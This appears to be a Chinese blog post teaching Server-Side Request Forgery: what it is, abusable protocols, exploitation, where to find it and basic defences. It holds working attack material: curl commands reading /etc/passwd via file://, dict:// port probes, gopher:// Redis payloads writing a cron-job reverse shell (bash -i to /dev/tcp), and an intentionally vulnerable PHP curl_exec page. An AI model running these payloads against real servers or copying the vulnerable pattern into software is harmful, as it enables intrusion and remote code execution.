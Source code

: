 ```yaml
---
layout: post
title: 'SSRF漏洞学习'
subtitle: 'SSRF漏洞学习'
date: 2021-08-15
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: jekyll 前端开发 设计
---
```


### SSRF漏洞学习

> 什么是 SSRF ？

SSRF(Server-Side Request Forgery)服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞，一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

> SSRF危害即可以实现的攻击行为

	 1.主机本地敏感信息读取， 对外网、服务器所在内网、本地进行端口扫描，获取一些服务的Banner信息
	 2.攻击运行在内外网主机的应用程序
	 3.通过访问默认文件对内网 Web 应用进行指纹识别
	 4.攻击内外网的 Web 应用，主要是使用 GET参数就可以实现的攻击
	 5.利用file协议读取本地文件

> 可进行利用的协议

	FILE                           读取服务器上任意文件内容
	IMAP/IMAPS/POP3SMTP/SMTPS      爆破邮件用户名密码
	FTP/FTPS                       FTP匿名访问、爆破
	DICT                           操作内网Redis等服务
	GOPHER                         能够将所有操作转成数据流，并将数据流一次发出去，可以用来探测内网的所有服务的所有漏洞
	TFTP                           UDP协议扩展

使用curl -V命令可以查看Ubuntu 16.04版本下默认的libcurl支持的协议

> PHP中容易造成漏洞的函数

	curl_exec()
	file_get_contents()
	fsockopen()

> 漏洞利用

1.本地利用

利用方式

(1)利用file协议查看文件

	curl -v 'file:///etc/passwd'

(2)利用dict探测端口

	curl -v 'dict://127.0.0.1:22'
	curl -v 'dict://127.0.0.1:6379/info'

(3)利用gopher协议反弹shell

	curl -v 'gopher://靶机ip:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$58%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/1234 0>&1%0a%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'

更换IP和端口时，命令中的$58也要更改，$58表示字符串长度为58个字节，上面的EXP即是%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/1234 0>&1%0a%0a%0a%0a，3+51+4=58。如果想换成42.256.24.73，那么$58需要改成$61，以此类推。

注：Windows下使用curl命令需要把单引号换成双引号

2.远程利用

例 1 ssrf.php （未做任何ssrf防御）
	<?php
	function curl($url){  
	    // 创建一个新cURL资源
	    $ch = curl_init();
	    // 设置URL和相应的选项
	    curl_setopt($ch, CURLOPT_URL, $url);
	    curl_setopt($ch, CURLOPT_HEADER, 0);
	    // 抓取URL并把它传递给浏览器
	    curl_exec($ch);
	    // 关闭cURL资源，并且释放系统资源
	    curl_close($ch);
	}
	
	$url = $_GET['url'];
	curl($url); 
	?>

$GET_['url']可控，从而可以发送任意请求站点，构成ssrf漏洞

利用方式:

	# 利用file协议任意文件读取
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=file:///etc/passwd'
	
	# 利用dict协议查看端口
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'
	
	# 利用gopher协议反弹shell
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'

例 2 ssrf2.php

限制协议为HTTP、HTTPS

设置跳转重定向为True（默认不跳转）

	<?php
	function curl($url){
	    $ch = curl_init();
	    curl_setopt($ch, CURLOPT_URL, $url);
	    curl_setopt($ch, CURLOPT_FOLLOWLOCATION, True);
	    // 限制为HTTPS、HTTP协议
	    curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);
	    curl_setopt($ch, CURLOPT_HEADER, 0);
	    curl_exec($ch);
	    curl_close($ch);
	}
	
	$url = $_GET['url'];
	curl($url);
	?>

此时使用dict协议已经不成功，可以利用302跳转的方式来绕过http协议限制

## 漏洞寻找

> 分享功能，通过 URL 地址分享网页内容

早期分享应用中，为了更好的提供用户体验，WEB应用在分享功能中，通常会获取目标URL地址网页内容中的<tilte></title>标签或者<meta name="description" content=“”/>标签中content的文本内容作为显示以提供更好的用户体验

>转码服务：通过URL地址把原地址的网页内容调优使其适合手机屏幕浏览

由于手机屏幕大小的关系，直接浏览网页内容的时候会造成许多不便，因此有些公司提供了转码功能，把网页内容通过相关手段转为适合手机屏幕浏览的样式。例如百度、腾讯、搜狗等公司都有提供在线转码服务

> 在线翻译：通过URL地址翻译对应文本的内容。

提供此功能的国内公司有百度、有道等

> 图片加载与下载：通过URL地址加载或下载图片

图片加载远程图片地址此功能用到的地方很多，但大多都是比较隐秘，比如在有些公司中的加载自家图片服务器上的图片用于展示。（开发者为了有更好的用户体验通常对图片做些微小调整例如加水印、压缩等，所以就可能造成SSRF问题）

> 图片、文章收藏功能

此处的图片、文章收藏中的文章收藏就类似于功能一、分享功能中获取URL地址中title以及文本的内容作为显示，目的还是为了更好的用户体验，而图片收藏就类似于功能四、图片加载

> 从URL关键字中寻找

share，url，link，src，source，target，sourceURl，imageURL，domain...

> 未公开的api实现以及其他调用URL的功能

此处类似的功能有360提供的网站评分，以及有些网站通过api获取远程地址xml文件来加载内容。

> 其他

数据库内置功能，比如mongodb的copyDatabase函数
接收邮件服务器地址的邮件系统

### 漏洞防护

1.限制协议为HTTP、HTTPS

2.限制302跳转次数

3.统一错误信息

4.限制内网IP